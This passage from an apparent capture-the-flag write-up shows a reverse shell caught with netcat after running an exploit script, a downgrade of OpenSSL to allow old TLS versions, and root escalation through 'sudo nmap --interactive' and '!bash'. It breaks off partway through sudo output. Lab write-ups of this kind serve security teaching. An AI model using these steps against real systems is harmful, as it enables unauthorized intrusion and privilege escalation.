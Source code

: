 

All best practice is to disable TLSv1.0 and all SSL versions, so my host
isn't allowing a connection to this box. I can change what my VM allows
in `/etc/ssl/openssl.cnf`, finding the line for `MinProtocol` and
changing it to `None`, like this:



    [system_default_sect]
    #MinProtocol = DEFAULT@SECLEVEL=2
    MinProtocol = None
    #CipherString = DEFAULT@SECLEVEL=2
    CipherString = None



I'll need to do it for the `CipherString` as well, or it will throw a
different error. Once I have that, running `python 18650.py` results in
a connection and a shell:



    root@kali# nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.2] from (UNKNOWN) [10.10.10.7] 56205
    id
    uid=100(asterisk) gid=101(asterisk)



### Privesc to root

#### nmap

The comments in the exploit script suggest using `sudo nmap` to get to
root, and that does work. I'll run `nmap` as root and then `![command]`
to run a command, like `bash`:



    sudo nmap --interactive

    Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
    Welcome to Interactive Mode -- press h <enter> for help
    nmap> !bash
    bash-3.2# id
    uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
    bash-3.2# cat /root/root.txt
    f2b76a2d************************



#### chmod

`sudo -l` shows there are a ton of things asterisk can run without a
password as root:



    bash-3.2$ sudo -l
    Matching Defaults entries for asterisk on this host:
        env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
        LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
        LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
        LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
        XAUTHORITY"
